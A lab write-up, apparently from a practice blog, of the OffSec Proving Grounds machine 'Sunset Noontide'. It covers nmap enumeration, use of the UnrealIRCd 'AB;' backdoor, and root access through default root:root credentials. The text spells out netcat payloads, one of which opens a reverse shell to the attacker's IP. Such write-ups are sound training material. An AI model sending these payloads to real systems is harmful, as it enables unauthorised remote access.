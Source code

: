 ```yaml
---
title: OffSec PG - Sunset Noontide
date: 2021-12-19 12:00:00 +0500
categories: [Lab Practice Notes, OffSec Proving Grounds]
tags: [oscp,lab,offsec-proving-grounds]
image:
  path: /assets/img/covers/pg-cover.jpeg
  alt: PG Artwork
---
```


## Enumeration

Machine IP &rarr; `192.168.56.120`

### Network Scan

Nmap scan &rarr; `nmap -sC -sV -Pn -p- -A -o nmap.txt 192.168.56.120`

OS Detection &rarr;  `Host: irc.foonet.com`

| **Port**         | **Service** | **Other details (if any)** |
| ---------------- | ----------- | -------------------------- |
| 6667, 6697, 8067 | IRC         | UnrealIRCd                 |

---

## Exploitation

The only service is an IRC, so searched exploit db via searchsploit for an exploit. This returned 4 entries. Looking at the code for the first one, there seems to be a backdoor which allows execution of shell commands when anything start with `AB;`.

Therefore, access can be checked by connecting to the IRCd via netcat and sending the the payload as `AB;echo "a" | nc 192.168.49.56 3002`. With a listener active on the attacking machine with the IP as in the payload, a conection and the letter "a" would be received.

Therefore, a similar payload can be used to receive shell via nc &rarr; `AB;nc 192.168.49.56 3002 -e /bin/bash`. This gives a shell as the `server` user. The home directory has the user flag.

---

## Privilege Escalation

With the shell of the `server` user, trying default creds of `root:root` works for getting the shell to root. This gives the root flag.

---
